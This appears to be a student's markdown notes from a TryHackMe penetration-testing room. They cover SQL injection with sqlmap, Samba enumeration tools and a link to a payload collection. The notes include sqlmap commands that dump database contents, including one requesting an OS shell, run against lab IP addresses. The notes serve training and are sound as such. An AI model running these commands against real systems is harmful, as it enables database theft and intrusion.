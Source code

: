 # Topics #

1. Sql Injection
2. Samba
3. privilege Escalation

## Sql Injection: Intro ##

* SQL injection is the art of modifying a SQL query so you can get access to the target's database. This technique is often used to get user's data such as passwords, emails etc. SQL injection is one of the most common web vulnerabilities.

### Sqlmap ###

* Sqlmap is arguably the most popular automated SQL injection tool out there. It checks for various types of injections and has plenty of customization options.
* Use `man sqlmap` for more info.

### Manual sql enumeration ###

* [OWASP/SQL-Injection](https://owasp.org/www-community/attacks/SQL_Injection)

### Walk through ###

* The syntax to use sqlmap is 

```ZSH
> sqlmap -u <url> -p <parameter to test>
> sqlmap -u http://10.10.175.67?msg=1 -p msg
> sqlmap -u http://10.10.175.67?msg=1 -D mysql -level 3 --dump-all --os-shell
```
* The above last two lines didn't work!

```ZSH
> sqlmap -u "http://10.10.116.134?msg=1" --dbs --columns -D tests --level 3
after we got the number of tables and columns, we can type

> sqlmap -u "http://10.10.116.134?msg=1" -dump -T <table-name> -C <column-name> -D <database-name>

> sqlmap -u "http://10.10.116.134?msg=1" -dump -T lol -C flag -D tests
```

* And it works and fetches the data to our local machine.

## Samba ##

* `Smbmap` is the tool used to enumerate samba shares.
* It allows pentesters to run commands (if they have permissions), download and upload files, and overall very useful for smb enumeration.
* `smbclient` allows you to do most of the things you can do with smbmap, and it also offers you an interactive prompt.
* `impacket` is a collection of extremely useful windows scripts. It is worth mentioning here, as it has many scripts available that use samba to enumerate and even gain shell access to windows machines. All scripts can be found here.

## Note on Privilege Escalation ##

* [Source](https://github.com/swisskyrepo/PayloadsAllTheThings) (A bunch of tools and payloads for every stage of pentesting)
* More info at [tryhackme 's website](https://tryhackme.com/room/ccpentesting). 

## Exam ## 

> Check the exam.md file!
